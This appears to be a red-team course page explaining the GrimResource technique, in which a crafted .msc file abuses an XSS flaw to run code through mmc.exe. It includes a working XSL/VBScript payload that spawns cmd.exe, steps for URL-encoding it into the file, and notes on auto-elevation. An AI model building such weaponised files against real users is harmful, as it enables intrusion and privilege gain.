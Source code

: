 # Microsoft Saved Console

A technique [discovered by Elastic](https://www.elastic.co/security-labs/grimresource), dubbed 'GrimResource', uses a specially crafted `.msc` (Microsoft Saved Console) file and an unpatched XSS flaw to trigger JavaScript code execution via the Microsoft Management Console (mmc.exe).  An example MSC can be found [here](https://gist.github.com/joe-desimone/2b0bbee382c9bdfcac53f2349a379fa4).  The weaponised portion is on [line 105](https://gist.github.com/joe-desimone/2b0bbee382c9bdfcac53f2349a379fa4/961d997c169e4315c2eb0cc6a1af795dd685c550#file-grimresource-msc-L105), which is VBScript wrapped in a stylesheet, then URL-encoded.

We could utilise a similar looking payload to spawn cmd.exe:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
        Set wshshell = CreateObject("WScript.Shell")
        wshshell.run "C:\\Windows\\System32\\cmd.exe"
]]></ms:script>
</stylesheet>
```

URL encode the payload using a tool like [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)\&input=PD94bWwgdmVyc2lvbj0nMS4wJz8%2BDQo8c3R5bGVzaGVldA0KICAgIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L1hTTC9UcmFuc2Zvcm0iIHhtbG5zOm1zPSJ1cm46c2NoZW1hcy1taWNyb3NvZnQtY29tOnhzbHQiDQogICAgeG1sbnM6dXNlcj0icGxhY2Vob2xkZXIiDQogICAgdmVyc2lvbj0iMS4wIj4NCiAgICA8b3V0cHV0IG1ldGhvZD0idGV4dCIvPg0KICAgIDxtczpzY3JpcHQgaW1wbGVtZW50cy1wcmVmaXg9InVzZXIiIGxhbmd1YWdlPSJWQlNjcmlwdCI%2BDQogICAgPCFbQ0RBVEFbDQogICAgICAgIFNldCB3c2hzaGVsbCA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpDQogICAgICAgIHdzaHNoZWxsLnJ1biAiQzpcXFdpbmRvd3NcXFN5c3RlbTMyXFxjbWQuZXhlIg0KXV0%2BPC9tczpzY3JpcHQ%2BDQo8L3N0eWxlc2hlZXQ%2B\&ieol=CRLF\&oeol=CRLF), then paste the encoded string onto line 105.

```powershell
xsl.loadXML(unescape("<ENCODED SCRIPT HERE>"))
```

Double-clicking the MSC file will launch an instance mmc.exe, which in turn will spawn cmd.exe.  One advantage of this technique is that MMC is an auto-elevating binary, so the user will be prompted to complete a UAC prompt if they're a local admin, and the payload will run in high-integrity.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/3b48cc0d95bae96505655d94d36aed58.png" alt=""><figcaption></figcaption></figure>

There are also a few automated tools that can help generate basic MSC payloads, such as [MSC\_Dropper](https://github.com/ZERODETECTION/MSC_Dropper).
